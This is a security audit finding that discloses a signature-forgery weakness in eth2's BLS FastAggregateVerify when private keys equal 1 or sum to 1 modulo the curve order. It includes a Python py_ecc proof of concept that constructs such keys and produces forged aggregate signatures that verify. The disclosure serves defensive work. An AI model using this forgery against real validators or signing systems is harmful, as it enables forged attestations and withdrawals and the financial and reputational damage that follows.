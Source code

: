 # Audit Findings

## Vulnerabilities of BLS' FastAggregateVerify via partitions of unity  
## Table of Contents
1. [Description](#Description)
2. [Risk Factors](#Risk-Factors)
3. [PoC](#PoC)
4. [References](#References)

## Description

The Bls signature scheme utilized by eth2 allows for an attacker to generate signatures considered valid by `FastAggregateVerify` in some circumstances. 
For a constant message `m` signed by `n` private/public keys `s_i/pk_i` and , an aggreated signature 

    sig = sig_1 + ... + sig_n 

is considered valid if:

    e(g_1, sig) = e(g_1,(s_1+...+s_n)H(m)) = e(pk_1+...+pk_n,H(m)).

This construction is vulnerable, if `s_1+...+s_n = 1`, as in this case a valid signature is given by the hash of the message `e(g_1, sig) = e(g_1,H(m))` and is therefore forgeable.

Two cases of this attack are considered in this report:

The special case `s = 1`, where a the field identity element is chosen as by private key (by chance, misconfiguration or user error). `s = 1` is erroneously specified as a valid output of the private key generation procedure (KeyGen) in the [BLS RFC]([https://tools.ietf.org/html/draft-irtf-cfrg-bls-signature-04#section-2.3]
), while this case is easy to detect for an attacker and all cryptographic assumptions are broken. An initial review (py-ecc, herumi) suggested, that all eth2 BLS libraries are affected, as the RFC is flawed.

The general case `s_1 + ... + s_n = 1 % curve_order` requires a set of private keys to be a partition of unity, which can be detected by an attacker without knowledge of any secret keys by observing p2p traffic. The general case can occur due to adversarial behaviour or for stochastic reasons. The likelihood of the latter is currently being reviewed and quantified, as it depends on several factors, namely the size of the validator set, committees and in particular the number of partitions of unity`p(1) modular curve_order`.

In the context of eth2, the exploitability of the vulnerabilities differs for the two cases:

* For the case `s = 1`, an attacker can forge signatures for all types of messages by vulnerable validator (withdrawals, slashable proposals and attestations) 
* For the case `s_1 + ... + s_n = 1 % curve_order`, an attacker  (e.g. a malicious aggregator) that captures p2p traffic can produce valid signatures for aggregated attestations of a subset of validator who's private keys add up to 1. 
An attacker might also maliciously create validators with such private keys and afterwards deny to have signed a given (slashable) message due to the cryptographic error, to inflict reputation damage. 



## Risk Factors

  - Once known, the vulnerabilities are relatively easy to exploit
  - The number of possible partitions of unity in high order prime fields/curves, implemented in eth2 is currently being quantified. It is not yet known if sets of validators are currently vulnerable, if they are assigned to a commitee   
  - it is hard to detect for nodes if they are being attacked, as the attacks can be mounted remotely and no explicit preconditions are required
  - it is hard to trace back the attack to a specific entity, as essentially only p2p messages are required 
  - So far, no validator has registered the public key corresponding validator key `s = 1`  
  - Attackers might construct vulnerable validator sets and launch the attack to inflict reputation damage to the ethereum community and profit via shorting  
    
## PoC for Py-ecc   

```
from py_ecc.bls import G2ProofOfPossession as bls
from py_ecc.bls.g2_primitives import *
from py_ecc.optimized_bls12_381.optimized_curve import *
from py_ecc.bls.hash_to_curve import hash_to_G2
from hashlib import sha256

import structlog

log = structlog.get_logger()


def test_partition_of_unity():
    """
    This test shows a weakness in bls.FastAggregateVerify, when private keys are a partition to 1 (1 = sk_0 + .... +
    sk_n % curve_order, with the special case private_key = 1 mod curve_order). If priv_key = 1, anyone can create a
    signature of a messages (withdrawal, slashable casper proposals, etc...) For the general case, under specific
    circumstances, an attacker (for instance, a malicious aggregator) can create universal forgeries of the
    aggregated signatures of a subset of validators. In practice, for a set of validators in a committee,
    who's private_keys sum up to 1. If this is the case can be detected by an attacker without knowledge of any
    private keys, by analyzing p2p traffic for the property bls.Aggregate([sig0, ..., sign] == message_hash. The
    likelihood of a partition to be observable in the wild depends on the size of the validator set and p(1),
    the number of possible partitions of 1 % curve_order. This likelihood is currently being reviewed. For reference:
    https://doi.org/10.2307/1993300
    """

    # boilerplate
    m = b"message"

    # private key is the multiplicative identity element
    sk0 = 1

    sk1 = 2880067194370816120
    sk2 = 354224848179261915075
    DST = b"BLS_SIG_BLS12381G2_XMD:SHA-256_SSWU_RO_POP_"

    # generating the message hash, a universally forgeable signature for a specific set of private keys
    message_hash = G2_to_signature(hash_to_G2(m, DST, hash_function=sha256))

    # BASE CASE: sk == 1

    one_key = G1_to_pubkey(G1)
    one_public_key = bls.SkToPk(sk0)
    # The public Key here is just the curve's generator
    assert one_key == one_public_key
    pk1 = bls.SkToPk(sk1)
    pk2 = bls.SkToPk(sk2)

    one_sigm = bls.Sign(sk0, m)

    # this is the bug allowing an attacker to create a universal forgery in the special case sk == 1
    assert one_sigm == message_hash
    sigm1 = bls.Sign(sk1, m)
    sigm2 = bls.Sign(sk2, m)

    log.msg(
        "If private key == 1 % curve_order, the signature is just the message hash and can be generated by anyone",
        verification_result=bls.FastAggregateVerify(
            [one_key, pk1, pk2], m, bls.Aggregate([message_hash, sigm1, sigm2])
        ),
    )

    # GENERAL CASE: 1 = sk_0 + .... + sk_n % curve_order

    def generate_additive_inverse(sk: int) -> list[int]:
        """
        For the PoC, we only create order 2 partitions (e.g. consisting of a private key and its additive inverses).
        In general any partition of order < MAX_VALIDATORS_PER_COMMITEE is viable in the context of eth2. The number
        of possible partitions of one % curve_order and therefore the likelihood of a partition to be observable by
        an attacker in the wild is currently being reviewed. For reference: https://doi.org/10.2307/1993300
        """
        additive_inverse = curve_order - sk + 1
        assert ((additive_inverse + sk) % curve_order) == 1
        return [sk, additive_inverse]

    private_keys = generate_additive_inverse(sk2)
    public_keys = [bls.SkToPk(priv_key) for priv_key in private_keys]
    signatures = [bls.Sign(priv_key, m) for priv_key in private_keys]
    assert len(public_keys) > 1
    assert len(signatures) > 1

    # check everything follows protocol
    for private_key in private_keys:
        assert bls._is_valid_privkey(private_key)
    for public_key in public_keys:
        assert bls._is_valid_pubkey(public_key)
    for signature in signatures:
        assert bls._is_valid_signature(signature)

    # this is the bug in the general case 1 = sk_0 + ... + sk_n, allowing an attacker to create a universal forgery
    # of a signature valid for FastAggregateVerify
    assert bls.Aggregate(signatures) == message_hash
    assert bls.FastAggregateVerify(public_keys, m, message_hash)
    assert not bls.AggregateVerify(public_keys, m, message_hash)


    log.msg(
        "For the general case, if 1 = (sk_0 + .... + sk_n) % curve_order, the aggregated signature is just the hash "
        "of the message and can be generated by anyone",
        verification_result=bls.FastAggregateVerify(public_keys, m, message_hash),
    )

```

## References
**[BLS Note]** https://crypto.stanford.edu/~dabo/pubs/papers/BLSmultisig.html#mjx-eqn-eqaggdiff

**[BLS RFC]** [https://tools.ietf.org/html/draft-irtf-cfrg-bls-signature-04#section-2.3]

**[PERIODICITY MODULO m AND DIVISIBILITY
PROPERTIES OF THE PARTITION
FUNCTION]** https://www.ams.org/journals/tran/1960-097-02/S0002-9947-1960-0115981-2/S0002-9947-1960-0115981-2.pdf